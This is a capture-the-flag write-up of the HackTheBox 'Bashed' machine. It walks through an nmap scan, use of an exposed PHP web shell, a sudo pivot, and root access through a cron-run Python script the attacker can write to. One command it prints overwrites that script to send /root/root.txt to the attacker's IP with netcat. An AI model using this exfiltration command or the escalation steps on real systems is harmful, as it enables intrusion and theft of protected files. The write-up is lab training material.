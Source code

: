 ```yaml
---
Title: HackTheBox Bashed
Date: 2018-02-27
Category: Challenges
Status: published
---
```


Bashed is a great entry-level box for people who are just getting started with HackTheBox. If you are just getting started with penetration testing, the value of this box is less in its technical content but rather in giving you the chance to exercise through your processes once. A bit like jumping into the water for the first time after doing dry-swimming. Let's jump in!

First we run a basic nmap scan to see what ports are running on the server:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-27 19:06 CET
Nmap scan report for 10.10.10.68
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
80/tcp open http

Nmap done: 1 IP address (1 host up) scanned in 1.01 seconds
```

Navigating to port 80, this is our first sight:

![Image]({attach}882342764.png){: .image-process-article-image}

The blog seems to belong to the developer of a PHP reverse shell. They also mention that it was developed on this very server. Foreshadowing. Thinking about likely directories, we try out `upload `- nope; `uploads `- nope; `dev `- bingo.

![Image]({attach}503885520-1.png){: .image-process-article-image}

Going to the minified shell file, we are greeted with an interactive prompt as the `bashed` user. The nice developer saved us the work of constructing and uploading a payload ourselves.

![Image]({attach}927448957.png){: .image-process-article-image}

This is not enough to give us the user flag, however. A quick check through `sudo -l` exposes a trivial privilege escalation vector. We can upgrade to the `scriptmanager` user right away:

```
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This gives us access to the user flag under `/home/scriptmanager/flag.txt`. Browsing the filesystem with our new
privileges now gives us access to the `/scripts` directory:

```sh
sudo -u scriptmanager
ls -alh /scripts

total 16K
drwxrwxr-- 2 scriptmanager scriptmanager 4.0K Dec 4 18:06 .
drwxr-xr-x 23 root root 4.0K Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Feb 27 10:16 test.txt
```

The test.py file contains the following code:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The test file is owned by the root user. This, along with the regularly refreshing modification date, hints at the
presence of some cronjob executing the Python script with root privileges. As we have write-level access to the Python
file, we can escalate our privileges very easily by overwriting its contents with our own payload.

```
sudo -u scriptmanager sh -c "echo "import os;os.system('cat /root/root.txt | nc 10.10.14.210 4444')" > /scripts/test.py"
```

`os.system` simply takes a string with a shell command here and executes it as the current user. With netcat conveniently being present on the system, we simply transmit the root flag to our machine. After a short wait time, we receive the payload on our listener:

![Image]({attach}2114701126.png){: .image-process-article-image}
